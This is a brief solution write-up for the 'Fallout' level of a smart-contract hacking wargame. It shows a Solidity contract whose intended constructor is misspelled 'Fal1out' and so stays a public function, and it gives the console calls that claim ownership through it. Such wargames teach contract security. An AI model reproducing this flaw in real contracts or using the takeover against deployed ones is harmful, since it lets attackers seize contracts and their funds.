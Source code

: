 # 02. Fallout

Claim ownership of the contract below to complete this level.

Things that might help:

- Solidity Remix IDE

## Solution

...

a typo...

in the constructor name...

`Fal1out` instead of `Fallout`

```solidity
function Fal1out() public payable {
  owner = msg.sender;
  allocations[owner] = msg.value;
}
```

```javascript
await contract.Fal1out({value: toWei('0.00000001')})
await contract.owner() == player
// true
```